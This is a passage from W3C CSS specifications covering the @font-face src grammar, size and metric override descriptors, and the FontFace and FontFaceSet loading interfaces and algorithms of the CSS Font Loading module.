The `src` descriptor value must be parsed according to section [CSS Syntax 3 § 5.4.10 Parse a comma-separated list of component values](#css-syntax-3:parse-comma-separated-list-of-component-values). Then each component value is parsed according to this grammar:

```
<url> [ format(<font-format>)]? [ tech( <font-tech>#)]? | local(<font-family-name>)
```

```css
<font-format>
   = [<string> | collection | embedded-opentype | opentype
    | svg | truetype | woff | woff2 ]
```

```css
<font-tech>
  = [<font-features-tech> | <color-font-tech>
    | variations | palettes | incremental ]
```

```css
<font-features-tech>
  = [features-opentype | features-aat | features-graphite]
```

```css
<color-font-tech>
  = [color-COLRv0 | color-COLRv1 | color-SVG | color-sbix | color-CBDT ]
```

If a component value is parsed correctly and is a supported [CSS Fonts 4 § 11.2 Font formats](#css-fonts-4:font-format-definitions) or [CSS Fonts 4 § 11.1 Font tech](#css-fonts-4:font-tech-definitions), add it to the list of supported sources. If parsing a component value results in a parsing error or its format or tech are unsupported, do not add it to the list of supported sources.

If there are no supported entries at the end of this process, the value for the `src` descriptor is a parse error.

These parsing rules allow for graceful fallback of fonts for user agents which don’t support a particular font tech or font format.

> **Example:** For example, when incremental transfer is not supported, a woff2 compressed version of the font is supplied, for optimal performance. Then, for [incremental transfer](https://w3c.github.io/IFT/Overview.html), the raw uncompressed OpenType font is provided, portions of which will be loaded on demand.
>
> ```
> @font-face {
>   font-family: "MyIncrementallyLoadedWebFont";
>   src: url("FallbackURLForBrowsersWhichDontSupportIncrementalLoading.woff2") format("woff2");
>   src: url("MyIncrementallyLoadedWebFont.otf") format(opentype)  tech(incremental);
> }
> ```

#### 4.3.  Font property descriptors: the `font-size` {#css-fonts-5:font-size-desc}

> **Issue:** [[Issue #806]](https://github.com/w3c/csswg-drafts/issues/806)

> **Issue:** [[Issue #731]](https://github.com/w3c/csswg-drafts/issues/731)

| Field | Value |
| --- | --- |
| Name: | **font-size** |
| For: | `@font-face` |
| Value: | auto \| [`<number>`]{1,2} |
| Initial: | auto |

****auto****

: The font matches any font size

****`<number>`****

: If a single `<number>` is given the font matches that specific font size, only. If two <number>s are given, they specify a range of font sizes which will match.

#### 4.4.  Glyph Size Multiplier: the `size-adjust` descriptor {#css-fonts-5:size-adjust-desc}

| Field | Value |
| --- | --- |
| Name: | **size-adjust** |
| For: | `@font-face` |
| Value: | `<percentage [0,∞]>` |
| Initial: | 100% |

The `size-adjust` descriptor defines a multiplier for glyph outlines and metrics associated with this font, to allow the author to harmonize the designs of various fonts when rendered at the same `font-size`.

All metrics associated with this font—​including glyph advances, baseline tables, and overrides provided by `@font-face` descriptors—​are scaled by the given percentage, as are the rendered glyph images. Consequently, any values derived from font metrics (such as `ex` and `ch` units, or the `from-font` value of `text-decoration-thickness`) are also affected when sourced from this font. However, the computed `font-size` (and thus any values that derive from it, such as `em` units, percentages in `text-underline-offset`, etc.) remains unaffected.

> **Note:** The `size-adjust` descriptor functions similarly to the `font-size-adjust` property, which essentially calculates an adjustment per font by matching ex heights, but likewise does not affect the computed `font-size`.

#### 4.5.  Line Height Font Metrics Overrides: the `ascent-override`, `descent-override`, and `line-gap-override` descriptors {#css-fonts-5:font-metrics-override-desc}

| Field | Value |
| --- | --- |
| Name: | **ascent-override** |
| For: | `@font-face` |
| Value: | [ normal \| `<percentage [0,∞]>` ]{1,2} |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **descent-override** |
| For: | `@font-face` |
| Value: | [ normal \| `<percentage [0,∞]>` ]{1,2} |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **line-gap-override** |
| For: | `@font-face` |
| Value: | [ normal \| `<percentage [0,∞]>` ]{1,2} |
| Initial: | normal |

The `ascent-override`, `descent-override`, and `line-gap-override` descriptors specify the ascent metric, descent metric, and line gap metric of the font, respectively. The first value provides the value for the x axis, and the second value provides the value for the y axis (defaulting to `normal` if omitted).

****normal****

: The corresponding metric value is obtained from the font as usual, as if this descriptor were absent from the `@font-face` block.

  > **Note:** Since there are multiple sources of such metrics in some font formats, this can result in text layout that varies across UAs/platforms.

****`<percentage>`****

: The corresponding metric is replaced by the given percentage multiplied by the effective font size after adjustment.

The `font-size-adjust` property is applied after the `size-adjust` descriptor.

> **Note:** The consequence of applying `font-size-adjust` after `size-adjust` is that `size-adjust` appears to have no effect.

> **Note:** None of these descriptors affect the computation of `font-size`, `line-height`, or font-relative lengths. They can, however, affect the behavior of `line-height: normal` and more generally the baseline alignment of inline-level content.

> **Note:** Since these metrics are only applicable in the block axis, the y-axis value will only be used when typesetting upright in vertical typographic modes.

> **Example:** The percentage is resolved against different font sizes for different elements.
>
> ```
> @font-face {
>   font-family: overridden-font;
>   ascent-override: 50%;
>   ...
> }
>
> <span style="font-family: overridden-font; font-size: 20px;">
>   Outer span content
>   <span style="font-size: 150%;">Inner span content</span>
> </span>
> ```
>
> The outer span uses an ascent value of 10px, whereas the inner span uses 15px.

> **Example:** We may override the metrics of a local fallback font to match the primary font, which is a web font. This reduces layout shifting when switching from fallback to the primary font.
>
> ```
> @font-face {
>   font-family: cool-web-font;
>   src: url("https://example.com/font.woff");
> }
>
> @font-face {
>   font-family: fallback-to-local;
>   src: local(Some Local Font);
>   /* Override metric values to match cool-web-font */
>   ascent-override: 125%;
>   descent-override: 25%;
>   line-gap-override: 0%;
>   size-adjust: 96%;
> }
>
> <div style="font-family: cool-web-font, fallback-to-local">Title goes here</div>
> 
> ```
>
> The image will not be shifted as much when the user agent finishes loading and switches to use the web font (assuming the override values are similar to the web font’s natural metrics).

#### 4.6.  Superscript and subscript metrics overrides: the `superscript-position-override`, `subscript-position-override`,`superscript-size-override` and `subscript-size-override` descriptors {#css-fonts-5:font-sup-sub-override-desc}

| Field | Value |
| --- | --- |
| Name: | **superscript-position-override** |
| For: | `@font-face` |
| Value: | [ normal \| from-font \| `<percentage>` ]{1,2} |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **subscript-position-override** |
| For: | `@font-face` |
| Value: | [ normal \| from-font \| `<percentage>` ]{1,2} |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **superscript-size-override** |
| For: | `@font-face` |
| Value: | [ normal \| from-font \| `<percentage [0,∞]>` ]{1,2} |
| Initial: | normal |

| Field | Value |
| --- | --- |
| Name: | **subscript-size-override** |
| For: | `@font-face` |
| Value: | [ normal \| from-font \| `<percentage [0,∞]>` ]{1,2} |
| Initial: | normal |

The `superscript-position-override`, `subscript-position-override`, `superscript-size-override`, and `subscript-size-override` descriptors specify the superscript offset, subscript offset, superscript size, and subscript size metrics of the font, respectively, which are used to synthesize glyphs when required by `font-variant-position`. The first value provides the value for the x axis, and the second value provides the value for the y axis (defaulting to the first value if omitted).

****normal****

: The UA determines what metrics value to use, whether derived from the font or from some heuristic.

****from-font****

: The corresponding metric in the font data is used, if any. (If the metric is missing, same as `normal`.)

****`<percentage>`****

: The corresponding metric is replaced by the given percentage multiplied by the used font size.

> **Note:** Since these metrics are only applicable in the block axis, the y-axis value will only be used when typesetting upright in vertical typographic modes.

### 5.  Font Feature Properties {#css-fonts-5:font-rend-props}

#### 5.1. Font language override: the `font-language-override` property {#css-fonts-5:font-language-override-prop}

> **Issue:** [[Issue #5484]](https://github.com/w3c/csswg-drafts/issues/5484)

### 6.  Font Feature and Variation Resolution {#css-fonts-5:font-feature-variation-resolution}

> **Issue:** [[Issue #5635]](https://github.com/w3c/csswg-drafts/issues/5635)

### 7.  Font Variation Properties {#css-fonts-5:font-variation-props}

#### 7.1.  Optical sizing control: the `font-optical-sizing` property {#css-fonts-5:font-optical-sizing-def}

> **Issue:** [[Issue #5466]](https://github.com/w3c/csswg-drafts/issues/5466)

### 8.  Font Technologies and Formats {#css-fonts-5:font-technologies-formats}

#### 8.1. Font tech {#css-fonts-5:font-tech-definitions}

This section expands upon [CSS Fonts 4 § 11.1 Font tech](#css-fonts-4:font-tech-definitions).

The **avar2** tech refers to support for version 2 of OpenType axis variations [avar2], for flexible variation axis remapping.

> **Example:** For example, a font using variation axis remapping is loaded only if supported:
>
> ```
> @font-face {
>   font-family: 'Roboto Flex';
>   src: url('RobotoFlex-VF-avar2.woff2') format(woff2) tech(variations, avar2);
>   src: url('RobotoFlex-VF.woff2') format(woff2) tech(variations);
>   font-weight: 100 1000;
>   font-stretch: 25% 151%;
> }
> ```

### 9.  Object Model {#css-fonts-5:object-model}

This section expands upon [CSS Fonts 4 §  12. Object Model](#css-fonts-4:object-model).

The contents of `@font-face` and `@font-feature-values` rules can be accessed via the following extensions to the CSS Object Model.

#### 9.1.  The `CSSFontFaceRule` interface {#css-fonts-5:om-fontface}

The **CSSFontFaceRule** interface represents a `<@font-face>` rule.

```webidl
[Exposed=Window]
interface CSSFontFaceDescriptors : CSSStyleDeclaration {
  attribute [LegacyNullToEmptyString] CSSOMString src;
  attribute [LegacyNullToEmptyString] CSSOMString fontFamily;
  attribute [LegacyNullToEmptyString] CSSOMString font-family;
  attribute [LegacyNullToEmptyString] CSSOMString fontStyle;
  attribute [LegacyNullToEmptyString] CSSOMString font-style;
  attribute [LegacyNullToEmptyString] CSSOMString fontWeight;
  attribute [LegacyNullToEmptyString] CSSOMString font-weight;
  attribute [LegacyNullToEmptyString] CSSOMString fontStretch;
  attribute [LegacyNullToEmptyString] CSSOMString font-stretch;
  attribute [LegacyNullToEmptyString] CSSOMString fontWidth;
  attribute [LegacyNullToEmptyString] CSSOMString font-width;
  attribute [LegacyNullToEmptyString] CSSOMString fontSize;
  attribute [LegacyNullToEmptyString] CSSOMString font-size;
  attribute [LegacyNullToEmptyString] CSSOMString sizeAdjust;
  attribute [LegacyNullToEmptyString] CSSOMString size-adjust;
  attribute [LegacyNullToEmptyString] CSSOMString unicodeRange;
  attribute [LegacyNullToEmptyString] CSSOMString unicode-range;
  attribute [LegacyNullToEmptyString] CSSOMString fontFeatureSettings;
  attribute [LegacyNullToEmptyString] CSSOMString font-feature-settings;
  attribute [LegacyNullToEmptyString] CSSOMString fontVariationSettings;
  attribute [LegacyNullToEmptyString] CSSOMString font-variation-settings;
  attribute [LegacyNullToEmptyString] CSSOMString fontNamedInstance;
  attribute [LegacyNullToEmptyString] CSSOMString font-named-instance;
  attribute [LegacyNullToEmptyString] CSSOMString fontDisplay;
  attribute [LegacyNullToEmptyString] CSSOMString font-display;
  attribute [LegacyNullToEmptyString] CSSOMString fontLanguageOverride;
  attribute [LegacyNullToEmptyString] CSSOMString font-language-override;
  attribute [LegacyNullToEmptyString] CSSOMString ascentOverride;
  attribute [LegacyNullToEmptyString] CSSOMString ascent-override;
  attribute [LegacyNullToEmptyString] CSSOMString descentOverride;
  attribute [LegacyNullToEmptyString] CSSOMString descent-override;
  attribute [LegacyNullToEmptyString] CSSOMString lineGapOverride;
  attribute [LegacyNullToEmptyString] CSSOMString line-gap-override;
  attribute [LegacyNullToEmptyString] CSSOMString superscriptPositionOverride;
  attribute [LegacyNullToEmptyString] CSSOMString superscript-position-override;
  attribute [LegacyNullToEmptyString] CSSOMString subscriptPositionOverride;
  attribute [LegacyNullToEmptyString] CSSOMString subscript-position-override;
  attribute [LegacyNullToEmptyString] CSSOMString superscriptSizeOverride;
  attribute [LegacyNullToEmptyString] CSSOMString superscript-size-override;
  attribute [LegacyNullToEmptyString] CSSOMString subscriptSizeOverride;
  attribute [LegacyNullToEmptyString] CSSOMString subscript-size-override;
};

[Exposed=Window]
interface CSSFontFaceRule : CSSRule {
  [SameObject, PutForwards=cssText] readonly attribute CSSFontFaceDescriptors style;
};
```

---

## CSS Font Loading Module Level 3 {#css-font-loading-3}

- **Shortname:** `css-font-loading-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-font-loading/](https://drafts.csswg.org/css-font-loading/)
- **Published TR:** [https://www.w3.org/TR/css-font-loading/](https://www.w3.org/TR/css-font-loading/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-10-22

### 1.  Introduction {#css-font-loading-3:introduction}

CSS allows authors to load custom fonts from the web via the `@font-face` rule. While this is easy to use when authoring a stylesheet, it’s much more difficult to use dynamically via scripting.

Further, CSS allows the user agent to choose when to actually load a font; if a font face isn’t *currently* used by anything on a page, most user agents will not download its associated file. This means that later use of the font face will incur a delay as the user agent finally notices a usage and begins downloading and parsing the font file.

This specification defines a scripting interface to font faces in CSS, allowing font faces to be easily created (via the `FontFace` interface) and loaded from script (via [document.fonts](#css-font-loading-3:font-face-source)). It also provides methods to track the loading status of an individual font, or of all the fonts on an entire page.

> **Issue:** Several things in this spec use normal ES objects to define behavior, such as various things using Promises internally, and FontFaceSet using a Set internally. I believe the intention here is that these objects (and their prototype chains) are pristine, unaffected by anything the author has done. Is this a good intention? If so, how should I indicate this in the spec?

#### 1.1.  Values {#css-font-loading-3:values}

This specification uses `Promise`s, which are defined in [ECMAScript 6](https://tc39.es/ecma262/multipage/control-abstraction-objects.html#sec-promise-objects). MDN has some [good tutorial material introducing Promises](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise).

#### 1.2.  Task Sources {#css-font-loading-3:task-source}

Whenever this specification queues a task, it queues it onto the "font loading" task source.

### 2.  The `FontFace` Interface {#css-font-loading-3:fontface-interface}

The `FontFace` interface represents a single usable font face. CSS `@font-face` rules implicitly define FontFace objects, or they can be constructed manually from a url or a buffer source.

```webidl
dictionary FontFaceDescriptors {
  CSSOMString style = "normal";
  CSSOMString weight = "normal";
  CSSOMString width;
  CSSOMString stretch = "normal"; // alias for width, sets the same attribute
  CSSOMString unicodeRange = "U+0-10FFFF";
  CSSOMString featureSettings = "normal";
  CSSOMString variationSettings = "normal";
  CSSOMString display = "auto";
  CSSOMString ascentOverride = "normal";
  CSSOMString descentOverride = "normal";
  CSSOMString lineGapOverride = "normal";
};

enum FontFaceLoadStatus { "unloaded", "loading", "loaded", "error" };

[Exposed=(Window,Worker)]
interface FontFace {
  constructor(CSSOMString family,
              (CSSOMString or BufferSource) source,
              optional FontFaceDescriptors descriptors = {});

  attribute CSSOMString family;
  attribute CSSOMString style;
  attribute CSSOMString weight;
  attribute CSSOMString width;
  attribute CSSOMString unicodeRange;
  attribute CSSOMString variant;
  attribute CSSOMString featureSettings;
  attribute CSSOMString variationSettings;
  attribute CSSOMString display;
  attribute CSSOMString ascentOverride;
  attribute CSSOMString descentOverride;
  attribute CSSOMString lineGapOverride;
  attribute CSSOMString sizeAdjust;

  readonly attribute FontFaceLoadStatus status;

  Promise<FontFace> load();
  readonly attribute Promise<FontFace> loaded;
};
```

> **Issue:** Clarify all mentions of "the document" to be clear about which document is being referenced, since objects can move between documents.

****`family`**,  of type CSSOMString **`style`**,  of type CSSOMString **`weight`**,  of type CSSOMString **`width`**,  of type CSSOMString **`unicodeRange`**,  of type CSSOMString**

: These attributes all represent the corresponding aspects of a font face, as defined by the descriptors defined in the CSS `@font-face` rule. They are parsed the same as the corresponding `@font-face` descriptors. They are used by the font matching algorithm, but otherwise have no effect.

  For example, a `FontFace` with a `style` of `"italic"` *represents* an italic font face; it does not **make** the font face italic.

  On getting, return the string associated with this attribute.

  On setting, parse the string according to the grammar for the corresponding `@font-face` descriptor. If it does not match the grammar, throw a `SyntaxError`; otherwise, set the attribute to the serialization of the parsed value.

****`featureSettings`**,  of type CSSOMString **`variationSettings`**,  of type CSSOMString **`display`**,  of type CSSOMString **`ascentOverride`**,  of type CSSOMString **`descentOverride`**,  of type CSSOMString **`lineGapOverride`**,  of type CSSOMString**

: These attributes have the same meaning, and are parsed the same as, the corresponding descriptors in the CSS `@font-face` rules.

  They turn on or off specific features in fonts that support them. Unlike the previous attributes, these attributes actually affect the font face.

  On getting, return the string associated with this attribute.

  On setting, parse the string according to the grammar for the corresponding `@font-face` descriptor. If it does not match the grammar, throw a `SyntaxError`; otherwise, set the attribute to the serialization of the parsed value.

****`status`**,  of type FontFaceLoadStatus, readonly**

: This attribute reflects the current status of the font face. It must be "unloaded" for a newly-created `FontFace`.

  It can change due to an author explicitly requesting a font face to load, such as through the `load()` method on `FontFace`, or implicitly by the user agent, due to it detecting that the font face is needed to draw some text on the screen.

****`loaded`**,  of type Promise<FontFace>, readonly**

: This attribute reflects the `[[FontStatusPromise]]` of the font face.

**`stretch`** is an alias for `width`. Its getter and setter delegate to `width`.

All `FontFace` objects contain an internal **`[[FontStatusPromise]]`** slot, which tracks the status of the font. It starts out pending, and fulfills or rejects when the font is successfully loaded and parsed, or hits an error.

All `FontFace` objects also contain internal **`[[Urls]]`** and **`[[Data]]`** slots, of which one is `null` and the other is not `null` (the non-null one is set by the constructor, based on which data is passed in).

#### 2.1.  The Constructor {#css-font-loading-3:font-face-constructor}

A `FontFace` can be constructed either from a URL pointing to a font face file, or from a `BufferSource` containing the binary representation of a font face.

When the **`FontFace(family, source, descriptors)`** method is called, execute these steps:

1. Let *font face* be a fresh `FontFace` object. Set *font face’s* `status` attribute to `"unloaded"`, Set its internal `[[FontStatusPromise]]` slot to a fresh pending `Promise` object.

   Parse the `family` argument, and the members of the `descriptors` argument, according to the grammars of the corresponding descriptors of the CSS `@font-face` rule. If the `source` argument is a `CSSOMString`, parse it according to the grammar of the CSS `src` descriptor of the `@font-face` rule. If any of them fail to parse correctly, reject *font face’s* `[[FontStatusPromise]]` with a DOMException named "SyntaxError", set *font face’s* corresponding attributes to the empty string, and set *font face’s* `status` attribute to "error". Otherwise, set *font face’s* corresponding attributes to the serialization of the parsed values.

   > **Note:** Note that this means that passing a naked url as the source argument, like `"http://example.com/myFont.woff"`, won’t work - it needs to be at least wrapped in a `url()` function, like `"url(http://example.com/myFont.woff)"`. In return for this inconvenience, you get to specify multiple fallbacks, specify the type of font each fallback is, and refer to local fonts easily.

   > **Issue:** Need to define the base url, so relative urls can resolve. Should it be the url of the document? Is that correct for workers too, or should they use their worker url? Is that always defined?

   Return *font face*. If *font face’s* `status` is "error", terminate this algorithm; otherwise, complete the rest of these steps asynchronously.
2. If the `source` argument was a `CSSOMString`, set *font face’s* internal `[[Urls]]` slot to the string.

   If the `source` argument was a `BufferSource`, set *font face’s* internal `[[Data]]` slot to the passed argument.
3. If *font face’s* `[[Data]]` slot is not `null`, queue a task to run the following steps synchronously:

  1. Set *font face’s* `status` attribute to "loading".
  2. For each `FontFaceSet` *font face* is in:

    1. If the `FontFaceSet`’s `[[LoadingFonts]]` list is empty, switch the FontFaceSet to loading.
    2. Append *font face* to the `FontFaceSet`’s `[[LoadingFonts]]` list.

   Asynchronously, attempt to parse the data in it as a font. When this is completed, successfully or not, queue a task to run the following steps synchronously:

  1. If the load was successful, *font face* now represents the parsed font; fulfill *font face’s* `[[FontStatusPromise]]` with *font face*, and set its `status` attribute to "loaded".

     For each `FontFaceSet` *font face* is in:

    1. Add *font face* to the `FontFaceSet`’s `[[LoadedFonts]]` list.
    2. Remove *font face* from the `FontFaceSet`’s `[[LoadingFonts]]` list. If *font* was the last item in that list (and so the list is now empty), switch the FontFaceSet to loaded.
  2. Otherwise, reject *font face’s* `[[FontStatusPromise]]` with a DOMException named "SyntaxError" and set *font face’s* `status` attribute to "error".

     For each `FontFaceSet` *font face* is in:

    1. Add *font face* to the `FontFaceSet`’s `[[FailedFonts]]` list.
    2. Remove *font face* from the `FontFaceSet`’s `[[LoadingFonts]]` list. If *font* was the last item in that list (and so the list is now empty), switch the FontFaceSet to loaded.

> **Note:** Newly constructed FontFace objects are not automatically added to the FontFaceSet associated with a document or a context for a worker thread. This means that while newly constructed fonts can be preloaded, they cannot actually be used until they are explicitly added to a FontFaceSet. See the following section for a more complete description of FontFaceSet.

#### 2.2.  The `load()` method {#css-font-loading-3:font-face-load}

The `load()` method of `FontFace` forces a url-based font face to request its font data and load. For fonts constructed from a buffer source, or fonts that are already loading or loaded, it does nothing.

When the **`load()`** method is called, execute these steps:

1. Let *font face* be the `FontFace` object on which this method was called.
2. If *font face’s* `[[Urls]]` slot is `null`, or its `status` attribute is anything other than `"unloaded"`, return *font face’s* `[[FontStatusPromise]]` and abort these steps.
3. Otherwise, set *font face’s* `status` attribute to "loading", return *font face’s* `[[FontStatusPromise]]`, and continue executing the rest of this algorithm asynchronously.
4. Using the value of *font face’s* `[[Urls]]` slot, attempt to load a font as defined in [CSS-FONTS-3], as if it was the value of a `@font-face` rule’s `src` descriptor.
5. When the load operation completes, successfully or not, queue a task to run the following steps synchronously:

  1. If the attempt to load fails, reject *font face’s* `[[FontStatusPromise]]` with a DOMException whose name is "NetworkError" and set *font face’s* `status` attribute to "error".

     For each `FontFaceSet` *font face* is in:

    1. Add *font face* to the `FontFaceSet`’s `[[FailedFonts]]` list.
    2. Remove *font face* from the `FontFaceSet`’s `[[LoadingFonts]]` list. If *font* was the last item in that list (and so the list is now empty), switch the FontFaceSet to loaded.
  2. Otherwise, *font face* now represents the loaded font; fulfill *font face’s* `[[FontStatusPromise]]` with *font face* and set *font face’s* `status` attribute to "loaded".

     For each `FontFaceSet` *font face* is in:

    1. Add *font face* to the `FontFaceSet`’s `[[LoadedFonts]]` list.
    2. Remove *font face* from the `FontFaceSet`’s `[[LoadingFonts]]` list. If *font* was the last item in that list (and so the list is now empty), switch the FontFaceSet to loaded.

User agents can initiate font loads on their own, whenever they determine that a given font face is necessary to render something on the page. When this happens, they must act as if they had called the corresponding `FontFace`’s `load()` method described here.

> **Note:** Some UAs utilize a "font cache" which avoids having to download the same font multiple times on a page or on multiple pages within the same origin. Multiple `FontFace` objects can be mapped to the same entry in the font cache, which means that a `FontFace` object might start loading unexpectedly, even if it’s not in a `FontFaceSet`, because some other `FontFace` object pointing to the same font data (perhaps on a different page entirely!) has been loaded.

#### 2.3.  Interaction with CSS’s `@font-face` Rule {#css-font-loading-3:font-face-css-connection}

A CSS `@font-face` rule automatically defines a corresponding `FontFace` object, which is automatically placed in the document’s font source when the rule is parsed. This `FontFace` object is **CSS-connected**.

The `FontFace` object corresponding to a `@font-face` rule has its `family`, `style`, `weight`, `width`, `unicodeRange`, `variant`, and `featureSettings` attributes set to the same value as the corresponding descriptors in the `@font-face` rule. There is a two-way connection between the two: any change made to a `@font-face` descriptor is immediately reflected in the corresponding `FontFace` attribute, and vice versa.

> **Issue:** When a FontFace is transferred between documents, it’s no longer CSS-connected.

The internal `[[Urls]]` slot of the `FontFace` object is set to the value of the `@font-face` rule’s `src` descriptor, and reflects any changes made to the `src` descriptor.

Otherwise, a `FontFace` object created by a CSS `@font-face` rule is identical to one created manually.

If a `@font-face` rule is removed from the document, its corresponding `FontFace` object is no longer CSS-connected. The connection is not restorable by any means (but adding the `@font-face` back to the stylesheet will create a brand new `FontFace` object which *is* CSS-connected).

If a `@font-face` rule has its `src` descriptor changed to a new value, the original connected `FontFace` object must stop being CSS-connected. A new `FontFace` reflecting its new `src` must be created and CSS-connected to the `@font-face`. (This will also remove the old and add the new `FontFace` objects from any font sources they appear in.)

#### 2.4.  Discovery of information about a font {#css-font-loading-3:discovery}

A `FontFace` object includes a variety of read-only information about the contents of the font file.

```webidl
[Exposed=(Window,Worker)]
interface FontFaceFeatures {
  /* The CSSWG is still discussing what goes in here */
};

[Exposed=(Window,Worker)]
interface FontFaceVariationAxis {
  readonly attribute DOMString name;
  readonly attribute DOMString axisTag;
  readonly attribute double minimumValue;
  readonly attribute double maximumValue;
  readonly attribute double defaultValue;
};

[Exposed=(Window,Worker)]
interface FontFaceVariations {
  readonly setlike<FontFaceVariationAxis>;
};

[Exposed=(Window,Worker)]
interface FontFacePalette {
  iterable<DOMString>;
  readonly attribute unsigned long length;
  getter DOMString (unsigned long index);
  readonly attribute boolean usableWithLightBackground;
  readonly attribute boolean usableWithDarkBackground;
};

[Exposed=(Window,Worker)]
interface FontFacePalettes {
  iterable<FontFacePalette>;
  readonly attribute unsigned long length;
  getter FontFacePalette (unsigned long index);
};

partial interface FontFace {
  readonly attribute FontFaceFeatures features;
  readonly attribute FontFaceVariations variations;
  readonly attribute FontFacePalettes palettes;
};
```

> **Note:** This read-only data is intended to help authors know which values are accepted by `font-feature-settings`, `font-variation-settings`, and `@font-palette-values`.

### 3.  The `FontFaceSet` Interface {#css-font-loading-3:FontFaceSet-interface}

```webidl
dictionary FontFaceSetLoadEventInit : EventInit {
  sequence<FontFace> fontfaces = [];
};

[Exposed=(Window,Worker)]
interface FontFaceSetLoadEvent : Event {
  constructor(CSSOMString type, optional FontFaceSetLoadEventInit eventInitDict = {});
  [SameObject] readonly attribute FrozenArray<FontFace> fontfaces;
};

enum FontFaceSetLoadStatus { "loading", "loaded" };

[Exposed=(Window,Worker)]
interface FontFaceSet : EventTarget {
  setlike<FontFace>;
  FontFaceSet add(FontFace font);
  boolean delete(FontFace font);
  undefined clear();

  // events for when loading state changes
  attribute EventHandler onloading;
  attribute EventHandler onloadingdone;
  attribute EventHandler onloadingerror;

  // check and start loads if appropriate
  // and fulfill promise when all loads complete
  Promise<sequence<FontFace>> load(CSSOMString font, optional CSSOMString text = " ");

  // return whether all fonts in the fontlist are loaded
  // (does not initiate load if not available)
  boolean check(CSSOMString font, optional CSSOMString text = " ");

  // async notification that font loading and layout operations are done
  readonly attribute Promise<FontFaceSet> ready;

  // loading state, "loading" while one or more fonts loading, "loaded" otherwise
  readonly attribute FontFaceSetLoadStatus status;
};
```

****`ready`**,  of type Promise<FontFaceSet>, readonly**

: This attribute reflects the `FontFaceSet`’s `[[ReadyPromise]]` slot.

  See [§ 3.4 The ready attribute](#css-font-loading-3:font-face-set-ready) for more details on this `Promise` and its use.

****iteration order****

: When iterated over, all CSS-connected `FontFace` objects must come first, in document order of their connected `@font-face` rules, followed by the non-CSS-connected `FontFace` objects, in insertion order.

****set entries****

: If a `FontFaceSet` is a font source, its set entries are initialized as specified in [§ 4.2 Interaction with CSS’s @font-face Rule](#css-font-loading-3:document-font-face-set).

  Otherwise, its set entries are initially empty.

****`add(font)`****

: When the `add()` method is called, execute the following steps:

  1. If *font* is already in the `FontFaceSet`’s set entries, skip to the last step of this algorithm immediately.
  2. If *font* is CSS-connected, throw an `InvalidModificationError` exception and exit this algorithm immediately.
  3. Add the *font* argument to the `FontFaceSet`’s set entries.
  4. If *font*’s `status` attribute is "loading":

    1. If the `FontFaceSet`’s `[[LoadingFonts]]` list is empty, switch the FontFaceSet to loading.
    2. Append *font* to the `FontFaceSet`’s `[[LoadingFonts]]` list.
  5. Return the `FontFaceSet`.

****`delete(font)`****

: When the `delete()` method is called, execute the following steps:

  1. If *font* is CSS-connected, return `false` and exit this algorithm immediately.
  2. Let *deleted* be the result of removing *font* from the `FontFaceSet`’s set entries.
  3. If *font* is present in the `FontFaceSet`’s `[[LoadedFonts]]`, or `[[FailedFonts]]` lists, remove it.
  4. If *font* is present in the `FontFaceSet`’s `[[LoadingFonts]]` list, remove it. If *font* was the last item in that list (and so the list is now empty), switch the FontFaceSet to loaded.
  5. Return *deleted*.

****`clear()`****

: When the `clear()` method is called, execute the following steps:

  1. Remove all non-CSS-connected items from the `FontFaceSet`’s set entries, its `[[LoadedFonts]]` list, and its `[[FailedFonts]]` list.
  2. If the `FontFaceSet`’s `[[LoadingFonts]]` list is non-empty, remove all items from it, then switch the FontFaceSet to loaded.

`FontFaceSet` objects also have internal **`[[LoadingFonts]]`**, **`[[LoadedFonts]]`**, and **`[[FailedFonts]]`** slots, all of which are initialized to empty lists, and a **`[[ReadyPromise]]`** slot, which is initialized to a fresh pending `Promise`.

Because font families are loaded only when they are used, content sometimes needs to understand when the loading of fonts occurs. Authors can use the events and methods defined here to allow greater control over actions that are dependent upon the availability of specific fonts.

A `FontFaceSet` is **pending on the environment** if any of the following are true:

- the document is still loading
- the document has pending stylesheet requests
- the document has pending layout operations which might cause the user agent to request a font, or which depend on recently-loaded fonts

> **Note:** The idea is that once a `FontFaceSet` stops being pending on the environment, as long as nothing further changes the document, an author can depend on sizes/positions of things being "correct" when measured. If the above conditions do not fully capture this guarantee, they need to be amended to do so.

#### 3.1.  Events {#css-font-loading-3:FontFaceSet-events}

Font load events make it easy to respond to the font-loading behavior of the entire document, rather than having to listen to each font specifically. The **`loading`** event fires when the document begins loading fonts, while the **`loadingdone`** and **`loadingerror`** events fire when the document is done loading fonts, containing the fonts that successfully loaded or failed to load, respectively.

The following are the event handlers (and their corresponding event handler event types) that must be supported by `FontFaceSet` objects as IDL attributes:

| Event handler | Event handler event type |
| --- | --- |
| `onloading` | `loading` |
| `onloadingdone` | `loadingdone` |
| `onloadingerror` | `loadingerror` |

To **fire a font load event** named *e* at a `FontFaceSet` *target* with optional *font faces* means to [fire a simple event](https://www.w3.org/TR/html5/webappapis.html#event-firing) named *e* using the `FontFaceSetLoadEvent` interface that also meets these conditions:

1. The `fontfaces` attribute is initialized to the result of filtering *font faces* to only contain `FontFace` objects contained in *target*.

When asked to **switch the FontFaceSet to loading** for a given `FontFaceSet`, the user agent must run the following steps:

1. Let *font face set* be the given `FontFaceSet`.
2. Set the `status` attribute of *font face set* to "loading".
3. If *font face set’s* `[[ReadyPromise]]` slot currently holds a fulfilled promise, replace it with a fresh pending promise.
4. Queue a task to fire a font load event named `loading` at *font face set*.

When asked to **switch the FontFaceSet to loaded** for a given `FontFaceSet`, the user agent must run the following steps:

1. Let *font face set* be the given `FontFaceSet`.
2. If *font face set* is pending on the environment, mark it as **stuck on the environment**, and exit this algorithm.
3. Set *font face set’s* `status` attribute to "loaded".
4. Fulfill *font face set’s* `[[ReadyPromise]]` attribute’s value with *font face set*.
5. Queue a task to perform the following steps synchronously:

  1. Let *loaded fonts* be the (possibly empty) contents of *font face set’s* `[[LoadedFonts]]` slot.
  2. Let *failed fonts* be the (possibly empty) contents of *font face set’s* `[[FailedFonts]]` slot.
  3. Reset the `[[LoadedFonts]]` and `[[FailedFonts]]` slots to empty lists.
  4. Fire a font load event named `loadingdone` at *font face set* with *loaded fonts*.
